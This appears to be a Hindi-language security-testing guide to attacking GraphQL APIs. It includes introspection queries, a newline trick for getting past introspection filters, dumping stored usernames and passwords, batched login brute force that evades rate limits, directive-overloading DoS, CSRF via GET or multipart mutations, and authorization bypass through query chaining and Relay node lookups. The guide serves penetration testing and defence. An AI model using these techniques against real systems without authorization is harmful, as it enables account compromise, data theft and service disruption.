

# GraphQL

{{#include ../../banners/hacktricks-training.md}}

## परिचय

GraphQL को REST API के **कुशल विकल्प** के रूप में **प्रमुखता से बताया गया है**। यह backend से data query करने का एक सरल तरीका प्रदान करता है। REST के विपरीत, जिसमें अक्सर data जुटाने के लिए अलग-अलग endpoints पर कई requests करनी पड़ती हैं, GraphQL एक **single request** के ज़रिए सभी ज़रूरी जानकारी प्राप्त करने की सुविधा देता है। इस प्रक्रिया को सरल बनाने से developers को अपने data-fetching workflows की जटिलता कम करने में काफ़ी **फ़ायदा होता है**।<sup>[[3]](#references)</sup>

## GraphQL और सुरक्षा

GraphQL अपने आप application authentication या authorization प्रदान नहीं करता; developers को ये controls आसपास की application और resolver logic में लागू करने होते हैं। इनके बिना, endpoints unauthenticated या unauthorized users के सामने संवेदनशील जानकारी या operations उजागर कर सकते हैं।<sup>[[1]](#references)[[6]](#references)</sup>

### Directory Brute Force Attacks और GraphQL

Exposed GraphQL endpoints खोजते समय, content-discovery scans में आम paths शामिल करें। GraphQL testing के व्यावहारिक guides में ऐसे paths और probes इस्तेमाल किए जाते हैं:<sup>[[4]](#references)[[5]](#references)</sup>

- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

खुले GraphQL instances की पहचान करने से supported queries की जाँच की जा सकती है। Endpoint के ज़रिए उपलब्ध data को समझने के लिए यह महत्वपूर्ण है। GraphQL का introspection system, schema द्वारा समर्थित queries का विवरण देकर इसमें मदद करता है। अधिक जानकारी के लिए, introspection पर GraphQL documentation देखें: [**GraphQL: A query language for APIs.**](https://graphql.org/learn/introspection/)<sup>[[20]](#references)</sup>

### Fingerprint

[**graphw00f**](https://github.com/dolevf/graphw00f) tool किसी server द्वारा इस्तेमाल किए जाने वाले GraphQL engine की पहचान कर सकता है और security auditor के लिए उपयोगी जानकारी दिखा सकता है।

#### सार्वभौमिक queries <a href="#universal-queries" id="universal-queries"></a>

यह जाँचने के लिए कि कोई URL GraphQL service है या नहीं, एक **universal query**, `query{__typename}`, भेजी जा सकती है। यदि response में `{"data": {"__typename": "Query"}}` शामिल हो, तो यह पुष्टि करता है कि URL पर GraphQL endpoint मौजूद है। यह तरीका GraphQL के `__typename` field पर निर्भर करता है, जो query किए गए object का type बताता है।

```javascript
query{__typename}
```

### Basic Enumeration

GraphQL-over-HTTP servers को `POST` सपोर्ट करना आवश्यक है और वे `GET` भी सपोर्ट कर सकते हैं; mutations को `GET` के ज़रिए execute नहीं किया जाना चाहिए। मानकों के अनुरूप servers JSON request bodies सपोर्ट करते हैं, जबकि कुछ implementations अतिरिक्त रूप से form या अन्य simple content types भी स्वीकार करते हैं। State-changing operations के लिए, उपयुक्त JSON content type के साथ `POST` अनिवार्य करें और सामान्य CSRF protections लागू करें; simple content types को अस्वीकार करने से CSRF का एक आम रास्ता बंद हो सकता है, लेकिन यह पूर्ण CSRF defense नहीं है।<sup>[[21]](#references)</sup>

#### Introspection

Schema की जानकारी खोजने के लिए introspection का उपयोग करने हेतु, `__schema` field को query करें। यह field सभी queries के root type पर उपलब्ध होता है।

```bash
query={__schema{types{name,fields{name}}}}
```

इस query से आपको उपयोग किए जा रहे सभी types के नाम मिलेंगे:

.png>)

```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

इस query से आप सभी types, उनके fields और arguments (argument types सहित) निकाल सकते हैं। API को query करना सीखने के लिए यह उपयोगी है।

.png>)

**त्रुटियाँ**

जाँचें कि क्या विस्तृत **त्रुटियाँ** लौटाई जाती हैं, क्योंकि वे उपयोगी schema और implementation संबंधी जानकारी उजागर कर सकती हैं।

```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

.png>)

**Introspection के ज़रिए Database Schema Enumerate करें**

> [!TIP]
> अगर introspection enabled है, लेकिन ऊपर दी गई query नहीं चलती, तो query structure से `onOperation`, `onFragment`, और `onField` directives हटाकर देखें।

```bash
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

Inline introspection query:

```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

पिछला अनुरोध एक GraphQL query है, जो object names, parameters और types जैसे schema metadata को dump करता है।

.png>)

अगर introspection enabled है, तो आप GUI में सभी options देखने के लिए [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager) का उपयोग कर सकते हैं।<sup>[[2]](#references)</sup>

### Query करना

अब जब हमें पता है कि database के अंदर किस तरह की जानकारी save की गई है, तो चलिए **कुछ values extract** करने की कोशिश करते हैं।

Introspection में आप पता लगा सकते हैं कि आप सीधे किस object को query कर सकते हैं (क्योंकि सिर्फ़ उसके मौजूद होने से आप किसी object को query नहीं कर सकते)। नीचे दी गई image में आप देख सकते हैं कि "_queryType_" का नाम "_Query_" है और "_Query_" object के fields में से एक "_flags_" है, जो खुद भी एक object type है। इसलिए आप flag object को query कर सकते हैं।


ध्यान दें कि query "_flags_" का type "_Flags_" है, और यह object नीचे दिए अनुसार defined है:

.png>)

`_Flags_` objects में **name** और **value** fields होते हैं, इसलिए आप इस तरह सभी flag names और values request कर सकते हैं:

```javascript
query={flags{name, value}}
```

यदि **query किया जाने वाला object** primitive type का हो, जैसे string, जैसा कि निम्न उदाहरण में है:

.png>)

आप इसे सीधे query कर सकते हैं:

```javascript
query = { hiddenFlags }
```

एक अन्य उदाहरण में "_Query_" type object के अंदर 2 objects थे: "_user_" और "_users_"।\
अगर इन objects को search करने के लिए किसी argument की ज़रूरत नहीं है, तो आप बस अपना चाहा हुआ data **मांगकर** उनसे **सारी जानकारी प्राप्त कर सकते हैं**। Internet के इस उदाहरण में आप सेव किए गए usernames और passwords निकाल सकते थे:

.png>)

हालाँकि, इस उदाहरण में ऐसा करने की कोशिश करने पर आपको यह **error** मिलता है:

.png>)

लगता है कि किसी तरह यह "_**uid**_" argument का इस्तेमाल करके search करेगा, जिसका type _**Int**_ है।\
[Basic Enumeration](graphql.md#basic-enumeration) section में पहले से ही एक ऐसी query दी गई है जो ज़रूरी जानकारी लौटाती है: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

अगर आप वह image देखें जो यह query चलाने पर मिली, तो आपको दिखेगा कि "_**user**_" के पास _Int_ type का **arg** "_**uid**_" था।

इस उदाहरण में, _**uid**_ की हल्की brute force से पता चलता है कि _**uid**=**1**_ पर username और password मिलता है:\
`query={user(uid:1){user,password}}`

.png>)

ध्यान दें कि मुझे पता चला कि मैं "_**user**_" और "_**password**_" **parameters** के बारे में पूछ सकता हूँ, क्योंकि अगर मैं ऐसी चीज़ खोजने की कोशिश करता हूँ जो मौजूद नहीं है (`query={user(uid:1){noExists}}`), तो मुझे यह error मिलता है:

.png>)

और **enumeration phase** के दौरान मुझे पता चला कि "_**dbuser**_" object के fields "_**user**_" और "_**password**_" थे।

**Query string dump trick (@BinaryShadow\_ को धन्यवाद)**

अगर आप string type से search कर सकते हैं, जैसे: `query={theusers(description: ""){username,password}}`, और **खाली string search करते हैं**, तो यह **सारा data dump कर देगा**। (_ध्यान दें कि यह उदाहरण tutorials के उदाहरण से संबंधित नहीं है; इस उदाहरण के लिए मान लें कि आप "**theusers**" में "**description**" नाम के String field से search कर सकते हैं_).

### Searching

searching और mutation sections के उदाहरणों में **persons** और **movies** वाला **database** इस्तेमाल किया गया है। **Persons** की पहचान उनके **email** और **name** से होती है; **movies** की पहचान उनके **name** और **rating** से होती है। **Persons** एक-दूसरे के friends हो सकते हैं और उनके पास movies हो सकती हैं, जो database के अंदर relationships दर्शाती हैं।

आप **name** के आधार पर persons को **search** कर सकते हैं और उनके emails पा सकते हैं:

```javascript
{
  searchPerson(name: "John Doe") {
    email
  }
}
```

आप व्यक्तियों को **नाम** से **खोज** सकते हैं और उनकी **सब्सक्राइब की गई** **फ़िल्में** प्राप्त कर सकते हैं:

```javascript
{
  searchPerson(name: "John Doe") {
    email
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

ध्यान दें कि व्यक्ति की `subscribedMovies` का `name` प्राप्त करने का तरीका कैसे बताया गया है।

आप **एक ही समय में कई ऑब्जेक्ट खोज सकते हैं**। इस मामले में, 2 फिल्मों की खोज की जाती है:

```javascript
{
  searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
    name
  }
}r
```

या **aliases का उपयोग करके कई अलग-अलग objects के relations भी**:

```javascript
{
  johnsMovieList: searchPerson(name: "John Doe") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
  davidsMovieList: searchPerson(name: "David Smith") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

### Mutations

**Mutations का उपयोग server-side में बदलाव करने के लिए किया जाता है।**

**introspection** में आप **declared** **mutations** देख सकते हैं। नीचे दी गई image में "_MutationType_" को "_Mutation_" कहा गया है और "_Mutation_" object में mutations के नाम होते हैं (इस मामले में "_addPerson_" की तरह):

.png>)

उसी persons-and-movies schema का उपयोग करते हुए, database में **नई movie बनाने** के लिए mutation का एक उदाहरण इस तरह दिख सकता है (जहाँ mutation का नाम `addMovie` है):

```javascript
mutation {
  addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
    movies {
      name
      rating
    }
  }
}
```

**ध्यान दें कि query में values और data का type, दोनों निर्दिष्ट हैं।**

इसके अतिरिक्त, database `addPerson` नामक **mutation** operation का समर्थन करता है, जो मौजूदा **friends** और **movies** के साथ उनके संबंध जोड़कर **persons** बनाने की अनुमति देता है। यह ध्यान रखना महत्वपूर्ण है कि नए बनाए गए person से जोड़ने से पहले friends और movies का database में मौजूद होना आवश्यक है।

```javascript
mutation {
  addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
    person {
      name
      email
      friends {
        edges {
          node {
            name
            email
          }
        }
      }
      subscribedMovies {
        edges {
          node {
            name
            rating
            releaseYear
          }
        }
      }
    }
  }
}
```

### Directive Overloading

जैसा कि [**इस रिपोर्ट में बताई गई एक vulnerability में समझाया गया है**](https://www.landh.tech/blog/20240304-google-hack-50000/), directive overloading का मतलब है किसी directive को लाखों बार तक call करना, ताकि server पर operations का बोझ पड़े और अंततः उसे DoS किया जा सके।<sup>[[13]](#references)</sup>

### Batching brute-force in 1 API request

यह जानकारी [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/) से ली गई है।<sup>[[14]](#references)</sup>\
Authentication जाँचने के लिए GraphQL API के ज़रिए **अलग-अलग credentials के साथ कई queries एक साथ भेजना**। यह एक सामान्य brute force attack है, लेकिन GraphQL batching feature की वजह से अब एक HTTP request में एक से अधिक login/password pairs भेजना संभव है। इस तरीके से external rate monitoring applications को यह लग सकता है कि सब ठीक है और कोई brute-forcing bot passwords का अनुमान लगाने की कोशिश नहीं कर रहा।

नीचे application authentication request का सबसे आसान उदाहरण है, जिसमें एक बार में **3 अलग-अलग email/password pairs** हैं। जाहिर है, इसी तरह एक request में हज़ारों pairs भेजना भी संभव है:

.png>)

जैसा कि response screenshot में दिख रहा है, पहली और तीसरी requests ने _null_ लौटाया और संबंधित जानकारी _error_ section में दिखाई। **दूसरी mutation में सही authentication data था** और response में सही authentication session token मिला।

 (1).png>)

## Introspection के बिना GraphQL

अधिक से अधिक **GraphQL endpoints introspection को disable कर रहे हैं**। हालांकि, unexpected request मिलने पर GraphQL द्वारा दिए गए errors, [**clairvoyance**](https://github.com/nikitastupin/clairvoyance) जैसे tools के लिए schema का अधिकांश हिस्सा फिर से बनाने को पर्याप्त हैं।

इसके अलावा, Burp Suite extension [**GraphQuail**](https://github.com/forcesunseen/graphquail) **Burp से होकर जाने वाली GraphQL API requests पर नज़र रखता है** और हर नई query के साथ एक internal GraphQL **schema बनाता है**। यह GraphiQL और Voyager के लिए schema भी दिखा सकता है। Introspection query मिलने पर extension एक fake response देता है। नतीजतन, GraphQuail API में इस्तेमाल के लिए उपलब्ध सभी queries, arguments और fields दिखाता है। अधिक जानकारी के लिए [**यह देखें**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema)।<sup>[[15]](#references)</sup>

[**GraphQL entities खोजने के लिए एक अच्छा wordlist यहाँ उपलब्ध है**](https://github.com/Escape-Technologies/graphql-wordlist?).

### GraphQL introspection defences को bypass करना <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

APIs में introspection queries पर लगी पाबंदियों को bypass करने के लिए, `__schema` keyword के बाद **एक special character डालना** कारगर साबित होता है। यह तरीका regex patterns में developers की आम चूकों का फ़ायदा उठाता है, जिनमें introspection को रोकने के लिए `__schema` keyword पर ध्यान दिया जाता है। **Spaces, नई पंक्तियाँ और commas** जैसे characters जोड़कर—जिन्हें GraphQL अनदेखा करता है, लेकिन regex में शामिल न किया गया हो—पाबंदियों को bypass किया जा सकता है। उदाहरण के लिए, `__schema` के बाद newline वाली introspection query ऐसी सुरक्षा को bypass कर सकती है:

```bash
# Example with newline to bypass
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

यदि सफल न हो, तो वैकल्पिक request methods आज़माएँ, जैसे **GET requests** या `x-www-form-urlencoded` के साथ **POST**, क्योंकि प्रतिबंध केवल POST requests पर लागू हो सकते हैं।

### WebSockets आज़माएँ

जैसा कि [**इस talk**](https://www.youtube.com/watch?v=tIo_t5uUK50) में बताया गया है, जाँचें कि क्या WebSockets के ज़रिए graphQL से connect करना संभव है, क्योंकि इससे संभावित WAF को bypass किया जा सकता है और websocket communication से graphQL का schema leak हो सकता है:<sup>[[16]](#references)</sup>

```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
  var GQL_CALL = {
    extensions: {},
    query: `
        {
            __schema {
                _types {
                    name
                }
            }
        }`,
  }

  var graphqlMsg = {
    type: "GQL.START",
    id: "1",
    payload: GQL_CALL,
  }
  ws.send(JSON.stringify(graphqlMsg))
}
```

### **उजागर GraphQL संरचनाओं की खोज**

जब introspection अक्षम हो, तो JavaScript libraries में preloaded queries के लिए वेबसाइट के source code की जाँच करना एक उपयोगी रणनीति है। ये queries developer tools के `Sources` tab में मिल सकती हैं, जिससे API के schema की जानकारी मिलती है और संभावित **उजागर संवेदनशील queries** का पता चलता है। Developer tools में खोजने के लिए commands हैं:

```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```

### Error-based schema reconstruction & engine fingerprinting (InQL v6.1+)

जब introspection ब्लॉक हो, तो **InQL v6.1+** अब केवल error feedback से reachable schema को reconstruct कर सकता है। नया *schema bruteforcer* configurable wordlist से candidate field/argument names के batches बनाता है और HTTP chatter कम करने के लिए उन्हें multi-field operations में भेजता है। उपयोगी error patterns अपने-आप इकट्ठा किए जाते हैं:<sup>[[9]](#references)</sup>

- `Field 'bugs' not found on type 'inql'` parent type के मौजूद होने की पुष्टि करता है और invalid field names को हटा देता है।
- `Argument 'contribution' is required` दिखाता है कि कोई argument अनिवार्य है और उसकी spelling बताता है।
- `Did you mean 'openPR'?` जैसे suggestion hints को validated candidates के रूप में queue में वापस जोड़ा जाता है।
- जान-बूझकर गलत primitive वाली values (जैसे strings के लिए integers) भेजकर bruteforcer type mismatch errors उत्पन्न करता है, जो असली type signature को leak करते हैं—इसमें `[Episode!]` जैसे list/object wrappers भी शामिल हैं।

Bruteforcer उन सभी types पर recursion जारी रखता है जिनसे नए fields मिलते हैं। इसलिए generic GraphQL names और app-specific guesses को मिलाने वाला wordlist अंततः introspection के बिना schema के बड़े हिस्सों को map कर सकता है। Runtime मुख्य रूप से rate limiting और candidate volume से सीमित होता है, इसलिए stealthier engagements के लिए InQL settings (wordlist, batch size, throttling, retries) को fine-tune करना महत्वपूर्ण है।

इसी release में, InQL एक **GraphQL engine fingerprinter** भी देता है (`graphw00f` जैसे tools से signatures लेकर)। यह module जान-बूझकर invalid directives/queries भेजता है और exact error text से मिलान करके backend को classify करता है। उदाहरण के लिए:<sup>[[9]](#references)</sup>

```graphql
query @deprecated {
    __typename
}
```

- Apollo जवाब देता है: `Directive "@deprecated" may not be used on QUERY.`
- GraphQL Ruby जवाब देता है: `'@deprecated' can't be applied to queries`.

किसी engine की पहचान हो जाने पर, InQL [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix) से उससे संबंधित entry दिखाता है, जिससे testers उस server family के साथ आने वाली कमजोरियों (default introspection behavior, depth limits, CSRF gaps, file uploads आदि) को प्राथमिकता दे पाते हैं।<sup>[[9]](#references)[[10]](#references)</sup>

अंत में, **automatic variable generation**, Burp Repeater/Intruder में pivot करते समय आने वाली एक आम बाधा को दूर करता है। जब भी किसी operation के लिए variables JSON की ज़रूरत होती है, InQL अब उचित defaults जोड़ देता है, ताकि request पहली बार भेजने पर ही schema validation पास कर जाए:<sup>[[9]](#references)</sup>

```text
"String"  -> "exampleString"
"Int"     -> 42
"Float"   -> 3.14
"Boolean" -> true
"ID"      -> "123"
ENUM      -> first declared value
```

Nested input objects में भी यही mapping लागू होती है, इसलिए आपको तुरंत एक syntactically और semantically valid payload मिल जाता है, जिसे हर argument को manually reverse-engineer किए बिना SQLi/NoSQLi/SSRF/logic bypasses के लिए fuzz किया जा सकता है।

## GraphQL में CSRF

अगर आपको नहीं पता कि CSRF क्या है, तो यह page पढ़ें:

{{#ref}}
../../pentesting-web/csrf-cross-site-request-forgery.md
{{#endref}}

आपको कई GraphQL endpoints **CSRF tokens के बिना configured** मिल सकते हैं।

ध्यान दें कि GraphQL requests आमतौर पर **`application/json`** Content-Type का उपयोग करके POST requests के ज़रिए भेजी जाती हैं।

```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```

हालाँकि, अधिकांश GraphQL endpoints **`form-urlencoded` POST requests** को भी support करते हैं:

```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```

इसलिए, चूँकि पिछले अनुरोधों जैसे CSRF अनुरोध **preflight requests के बिना** भेजे जाते हैं, GraphQL में CSRF का दुरुपयोग करके **बदलाव करना** संभव है।

जिन cookies में स्पष्ट `SameSite` attribute नहीं होता, उन्हें आमतौर पर `SameSite=Lax` माना जाता है। ऐसी cookies किसी cross-site request के साथ तभी भेजी जा सकती हैं, जब वह safe method (विशेष रूप से `GET`) का उपयोग करने वाला top-level navigation हो। इसलिए, वे सामान्य cross-site subresource requests के साथ नहीं भेजी जातीं।<sup>[[22]](#references)</sup>

कुछ GraphQL servers **query request को GET request के रूप में भी स्वीकार करते हैं**, और हो सकता है कि उस रास्ते पर implementation अपने CSRF token को validate न करे।

इसके अलावा, उपयोगकर्ता के credentials का दुरुपयोग करके GraphQL endpoint से content exfiltrate करने के लिए [**XS-Search**](../../pentesting-web/xs-search/index.html) **attack** का दुरुपयोग करना भी संभव हो सकता है।

अधिक जानकारी के लिए [**यहाँ original post देखें**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)।<sup>[[17]](#references)</sup>

### जाँचें कि क्या GET mutations execute करता है

GraphQL over HTTP में queries के लिए `GET` की अनुमति है, लेकिन server को `GET` के ज़रिए mutations को अस्वीकार करना आवश्यक है।<sup>[[21]](#references)</sup> graphql-cop में इस method के ज़रिए mutation support की जाँच अलग से शामिल है।<sup>[[30]](#references)</sup> ऐसी mutation के लिए जिसका प्रभाव आप सुरक्षित रूप से देख और undo कर सकते हैं, शुरुआती state दर्ज करें और `POST` के साथ अपेक्षित प्रभाव की पुष्टि करें। फिर उसी operation को URL-encoded `query` parameter में `GET` के साथ भेजने से पहले state को बहाल करें। Execution का प्रमाण मानने के लिए केवल HTTP `200` या error-free envelope पर निर्भर न रहें; इसके बजाय किसी नए side effect की पुष्टि करें।<sup>[[21]](#references)[[30]](#references)</sup>

```bash
curl -G 'https://example.com/graphql' \
  --data-urlencode 'query=mutation { updateTestRecord(id: "1", value: "probe") { id } }'
```

यदि mutation `GET` के जरिए चलती है, तो target के वास्तविक cookie `SameSite` व्यवहार और CSRF controls को ध्यान में रखते हुए browser CSRF का अलग से आकलन करें; केवल authenticated command-line request से यह साबित नहीं होता कि browser इसे trigger कर सकता है।<sup>[[22]](#references)</sup> Browser की आवश्यक स्थितियों के लिए [CSRF prerequisites](../../pentesting-web/csrf-cross-site-request-forgery.md#prerequisites-for-a-csrf-attack) देखें। परिणाम जाँचने के बाद test record को पहले जैसी स्थिति में वापस रखें।

### Multipart upload का दुरुपयोग (`Upload` scalar)

कई GraphQL stacks `Upload` scalars को support करने के लिए **GraphQL multipart request specification** लागू करते हैं।<sup>[[11]](#references)</sup> Offensive दृष्टिकोण से, जब भी आपको `scalar Upload`, `multipart/form-data` या `uploadAvatar`, `createMediaItem` अथवा `import*` जैसे mutations दिखें, तो केवल basic file validation से आगे की जाँच करें:

- **multipart के जरिए CSRF**: `multipart/form-data` एक **simple request** है, इसलिए browsers बिना **preflight** के cross-origin upload mutations भेज सकते हैं। यह खास तौर पर तब प्रासंगिक है जब application अन्य जगहों पर केवल JSON स्वीकार करने का दावा करती है।
- **Upload variable का दोबारा उपयोग**: GraphQL एक ही variable को कई बार reference करने की अनुमति देता है। यदि backend upload variables के single-use होने को लागू नहीं करता, तो एक ही file stream को कई resolver arguments में दोबारा इस्तेमाल करने से double reads, stream का समय से पहले समाप्त होना या server-side buffering/memory pressure हो सकता है।
- **अनाथ parts / अतिरिक्त files**: कुछ multipart parsers यह जाँचने से पहले मिली हर file को buffer कर लेते हैं कि `map` field में उसका reference है या नहीं। इसलिए बड़ी, अप्रयुक्त parts भेजना disk/RAM exhaustion की जाँच का अच्छा तरीका है।

**variable reuse** के लिए त्वरित test:

```bash
curl -X POST https://target/graphql \
  -F 'operations={"query":"mutation($f: Upload!){a:uploadAvatar(file:$f){id} b:uploadAvatar(file:$f){id}}","variables":{"f":null}}' \
  -F 'map={"0":["variables.f"]}' \
  -F '0=@/tmp/poc.bin'
```

साथ ही malformed `map` objects को **extra file parts** के साथ आज़माएँ (उदाहरण के लिए, दूसरा part जिसका कहीं भी reference न हो) और response time, temporary-file growth या reverse-proxy errors में अंतर देखें।

## GraphQL में Cross-site WebSocket hijacking

GraphQL का दुरुपयोग करने वाली CRSF vulnerabilities की तरह, **unprotected cookies के साथ GraphQL में authentication का दुरुपयोग करने के लिए Cross-site WebSocket hijacking करना** और उपयोगकर्ता से GraphQL में अप्रत्याशित actions करवाना भी संभव है।

अधिक जानकारी के लिए देखें:

{{#ref}}
../../pentesting-web/websocket-attacks.md
{{#endref}}

## GraphQL में Authorization

Endpoint पर परिभाषित कई GraphQL functions केवल requester का authentication जाँच सकते हैं, authorization नहीं।

Query input variables में बदलाव से संवेदनशील account details [leaked](https://hackerone.com/reports/792927) हो सकती हैं।<sup>[[19]](#references)</sup>

Mutation से दूसरे account का data बदलने की कोशिश करके account takeover भी हो सकता है।

```javascript
{
  "operationName":"updateProfile",
  "variables":{"username":INJECT,"data":INJECT},
  "query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```

### GraphQL में authorization bypass करना

[Queries को chain](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln) करके एक कमजोर authentication system को bypass किया जा सकता है।<sup>[[18]](#references)</sup>

नीचे दिए गए उदाहरण में आप देख सकते हैं कि operation `"forgotPassword"` है और इसे केवल इससे जुड़ी `forgotPassword` query execute करनी चाहिए। अंत में एक query जोड़कर इसे bypass किया जा सकता है। इस मामले में, हम `"register"` और एक user variable जोड़ते हैं, ताकि system एक नए user के रूप में register करे।

<figure><figcaption></figcaption></figure>

### Direct queries की तुलना Relay `node(id:)` से करें

Relay-compatible schemas एक root `node(id: ID!)` field उपलब्ध करा सकती हैं, जो `Node` interface लागू करने वाले किसी भी object को फिर से fetch करती है। यह किसी object तक पहुँचने का एक अलग रास्ता है, जिसे application आम तौर पर type-specific field के ज़रिए fetch कर सकती है। API Platform की एक advisory ऐसे मामले का दस्तावेज़ देती है जहाँ operation-level security ने type-specific query को सुरक्षित किया था, लेकिन `node` lookup पर लागू नहीं हुई।<sup>[[28]](#references)[[29]](#references)</sup>

Introspection या captured client query के ज़रिए `node` field खोजें। अपने test account के लिए उपलब्ध response से target object का `id` प्राप्त करें; उसी exact ID का उपयोग करें, क्योंकि इसका format implementation-specific होता है। Unauthenticated या कम privileges वाले account से, दोनों रास्तों के ज़रिए उसी object और fields की तुलना करें:<sup>[[28]](#references)[[29]](#references)</sup>

```graphql
query Direct { book(id: "/books/1") { id title } }
```

```graphql
query ViaNode {
  node(id: "/books/1") { id ... on Book { title } }
}
```

